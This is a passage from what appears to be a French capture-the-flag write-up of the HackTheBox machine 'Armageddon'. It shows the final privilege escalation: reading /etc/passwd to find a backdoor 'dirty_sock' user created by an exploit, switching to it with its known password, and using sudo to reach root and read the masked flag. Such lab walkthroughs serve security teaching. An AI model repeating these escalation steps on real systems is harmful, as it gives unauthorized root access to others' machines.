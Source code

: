 Si on regarde les utilisateurs système, on peut voir un nouvel utilisateur `dirty_sock`.

> cat /etc/passwd

```
[brucetherealadmin@armageddon ~]$ cat /etc/passwd
[...]
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
dirty_sock:x:1001:1001::/home/dirty_sock:/bin/bash
```

Nous pouvons maintenant nous y connecter avec le mot de passe `dirty_sock`.

> su dirty_sock

```
[brucetherealadmin@armageddon ~]$ su dirty_sock
```

> sudo -l

```
[dirty_sock@armageddon brucetherealadmin]$ sudo -l

User dirty_sock may run the following commands on armageddon:
    (ALL : ALL) ALL
```

> sudo su

```
[dirty_sock@armageddon ~]$ sudo su
[root@armageddon ~]# 
```

Nous voilà maintenant avec le root.

> cat root.txt

```
[root@armageddon ~]# cat root.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXX
```



Cela conclut donc la box <u>Armageddon</u>  sur la plateforme <u>HackTheBox</u>
<u>Ethost.</u>